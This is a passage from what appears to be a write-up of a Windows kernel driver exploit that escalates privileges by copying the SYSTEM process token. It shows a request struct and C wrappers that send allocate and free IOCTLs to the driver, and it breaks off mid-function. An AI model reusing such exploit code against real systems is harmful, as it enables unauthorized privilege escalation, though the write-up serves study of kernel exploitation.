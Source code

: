 ![windbg](/images/kernel_windbg.png)

The exploit’s main function is doing the outlined idea of copying the systems process security token:
```c

...
typedef struct reap  {
	DWORD magic; //0x6A55CC9E
	DWORD thread_id;
	DWORD priority;
	DWORD empty;
	QWORD src_address;
	QWORD dst_address;
} reap;
...

void Allocate(HANDLE hFile, reap *r)
{
	unsigned char obuf[1024];
	BOOL result;
	ULONG BytesReturned;

	memset(obuf, 0, sizeof(obuf));

	result = DeviceIoControl(hFile,
		IOCTL_ALLOCATE,
		(LPVOID)r,
		(DWORD)sizeof(struct reap),
		obuf,
		1024,
		&BytesReturned,
		NULL);
}

void Free(HANDLE hFile)
{
	unsigned char obuf[1024];
	BOOL result;
	ULONG BytesReturned;

	memset(obuf, 0, sizeof(obuf));

	result = DeviceIoControl(hFile,
		IOCTL_FREE,
		(LPVOID)NULL,
		(DWORD)0,
```